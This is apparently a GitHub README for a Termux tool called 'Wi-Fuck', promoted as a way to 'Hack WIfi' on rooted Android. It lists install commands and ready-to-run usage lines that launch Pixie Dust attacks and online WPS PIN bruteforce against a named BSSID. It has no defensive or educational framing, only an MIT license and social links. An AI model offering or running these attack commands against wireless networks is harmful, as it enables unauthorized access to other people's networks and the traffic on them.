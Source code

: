<h1 align="center">Wifi Hacker</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python wpa-supplicant pixiewps iw -y
git clone https://github.com/MontouchUK/Wi-Fuck 
cd wi-fuck 
pip3 install -r requirements.txt
chmod +x wi-fuck.py
```
#### Help : `sudo python wi-fuck.py --help`
#### Example : `sudo python wi-fuck.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wi-fuck.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wi-fuck.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wi-fuck.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

### License

````
MIT License

Copyright (c) 2023 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
````

+ **IF FAILED TURN OFF LOCATION IF TURNED ON.**

Repo : <a href="https://github.com/MontouchUK/Wi-Fuck"> Here </a>

##### Modify History : rofl0r => 🅼🅾🅽🆃🅾🆄🅲🅷🇧🇩
<div align="center">
<h3>━━━━ Connect with me ━━━━</h3>
<a href="https://fb.com/montouch.mohaimin" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Montouch" height="30" width="40" /></a>
</div>
<a href="https://github.com/sadman-11">  <img align="center" src="https://visitor-badge.laobi.icu/badge?style=flat-square&page_id=sadman-11.wifi-hack"></a>
